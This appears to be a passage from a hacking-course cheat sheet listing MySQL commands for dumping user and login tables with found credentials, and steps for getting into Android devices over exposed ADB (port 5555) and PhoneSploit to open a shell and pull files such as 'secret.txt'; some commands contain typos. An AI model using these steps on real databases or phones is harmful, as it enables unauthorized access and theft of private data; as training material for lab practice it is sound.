 **MySQL**<br>
mysql -U qdpmadmin -h [host] -P passwod <br>
show databases;<br>
use qdpm;<br>
show tables'<br>
select * from users;<br>
show dtabases;<br>
use staff;<br>
show tables;<br>
select * from login;<br>
select * from user;<br>

When you have username and Password for the database.
  
## 8. Hacking Android

### ADB
**To Install ADB**<br>
apt-get update<br>
sudo apt-get install adb -y<br>
adb devices -l

**Connection Establish Steps**<br>
adb connect x.x.x.x:5555<br>
adb devices -l<br>
adb shell  

**To navigate**<br>
pwd<br>
ls<br>
cd Download<br>
ls<br>
cd sdcard<br>

**Download a File from Android using ADB tool**<br>
adb pull /sdcard/log.txt C:\Users\admin\Desktop\log.txt <br>
adb pull sdcard/log.txt /home/mmurphy/Desktop

### PhoneSploit
**To install Phonesploit**<br>
git clone https://github.com/aerosol-can/PhoneSploit<br>
cd PhoneSploit<br>
pip3 install colorama<br>
OR<br>
python3 -m pip install colorama<br>

**To run Phonesploit**<br>
python3 phonesploit.py<br>

Type 3 and Press Enter to Connect a new Phone OR Enter IP of Android Device<br>
Type 4, to Access Shell on phone<br>
Download File using PhoneSploit<br>
9. Pull Folders from Phone to PC<br>
Enter the Full Path of file to Download<br>
sdcard/Download/secret.txt
